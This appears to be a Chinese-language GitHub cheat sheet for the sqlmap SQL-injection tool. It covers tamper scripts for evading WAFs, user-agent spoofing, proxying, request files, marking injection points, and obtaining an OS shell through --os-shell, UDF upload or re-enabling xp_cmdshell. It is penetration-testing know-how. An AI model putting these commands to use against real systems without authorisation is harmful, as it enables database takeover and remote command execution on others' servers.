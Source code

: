 ### 简介

|名称|描述|
|:-------------:|--|
|[sqlmap](https://github.com/sqlmapproject/sqlmap)| Automatic SQL injection and database takeover tool|

### tamper详解

tampers是sqlmap自带的绕过WAF的脚本，可查看所有tampers:
`python sqlmap.py --list-tampers`

我总结了一份 [tamper脚本分类汇总 sqlmap_tamper.csv](files/sqlmap_tamper.csv) 

可根据实际情况中的 数据库类型 选择合适的tamper(或自写脚本)实现绕过WAF进行SQL注入

### 常用参数 - 强制ssl

待测网站通常是https协议 

可能出现404`[CRITICAL] page not found (404)`

加上参数即可`--force-ssl`

（在Host头最后加上`:443`这种办法一般可行但有局限性，实测中有8443端口的https无法用该方法解决）


### 常用参数 - 加快测试速度

指定数据库类型
```
--dbms Oracle
--dbms Mysql
--dbms "Microsoft Access"
```

### 常用参数 - 设置proxy代理流量

格式为：`(http|https|socks4|socks5)://address:port`

如
```
--proxy=socks5://127.0.0.1:1080
```

### 常用参数 - 设置user-agent避免指纹

随机user-agent
```
 --random-agent
```

安卓手机user-agent
```
--user-agent "Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"
```

### 常用参数 - 读取HTTP request文本

sqlmap `-r reqfile.txt` 会自动分析该请求包（如cookie，POST数据 等），可充分测试各处，避免用命令行设置User-Agent等参数

`reqfile.txt`的格式：
```
POST /vuln.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/4.0

id=1
```

### 常用参数 - 用*标记注入点

针对情况：伪静态 等不识别的格式

```
sqlmap -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号

### 参数 - OS命令执行

前提1：数据库为MySQL/PostgreSQL/Microsoft SQL Server

前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privileg`

--os-shell=whoami
```
#--os-cmd=执行系统命令
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-cmd=whoami 
```

--os-shell
```
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-shell #交互式shell
```

实现原理：

在MySQL、PostgreSQL: sqlmap上传一个二进制库，包含用户自定义的函数sys_exec()和sys_eval() 创建的这两个函数可以执行系统命令。

在Microsoft SQL Server: sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。
